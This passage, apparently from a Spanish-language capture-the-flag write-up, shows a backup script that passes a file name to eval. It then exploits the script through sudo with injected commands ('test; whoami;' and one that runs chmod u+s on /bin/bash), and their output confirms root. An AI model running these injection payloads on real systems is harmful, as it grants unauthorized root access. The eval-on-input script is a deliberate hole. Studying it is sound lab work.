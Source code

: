 ```bash
fi

# Variables GLOBALES
LOG_DIR="/var/log/apache2"
BACKUP_DIR="/backup"

LOG_NAME=$1

FULL_NAME="$LOG_DIR/$LOG_NAME.log"

/usr/bin/echo "Realizando copia de $FULL_NAME en $BACKUP_DIR"
COMMAND="/usr/bin/cp $FULL_NAME $BACKUP_DIR"
eval $COMMAND
```

Vemos que puede tener una vulnerabilidad en el script, que es el echo de concatenar comandos, vamos a probar a realizar lo siguiente a ver si funciona.

```shell
sudo /opt/scripts/backup.sh "test; whoami;"
```

Info:

```
Realizando copia de /var/log/apache2/test; whoami;.log en /backup
/usr/bin/cp: missing destination file operand after '/var/log/apache2/test'
Try '/usr/bin/cp --help' for more information.
root
/opt/scripts/backup.sh: line 32: .log: command not found
```

Vemos que efectivamente funciona y nos pondra que es `root` por lo que vamos a establecer la `bash` con permisos `SUID`.

```shell
sudo /opt/scripts/backup.sh "test; chmod u+s /bin/bash | echo 'Permisos establecidos de forma correcta...';"
```

Info:

```
Realizando copia de /var/log/apache2/test; chmod u+s /bin/bash | echo 'Permisos establecidos de forma correcta...';.log en /backup
/usr/bin/cp: missing destination file operand after '/var/log/apache2/test'
Try '/usr/bin/cp --help' for more information.
Permisos establecidos de forma correcta...
/opt/scripts/backup.sh: line 32: .log: command not found
```

Vemos que ha funcionado, vamos a comprobarlo de la siguiente forma:

```shell
ls -la /bin/bash
```
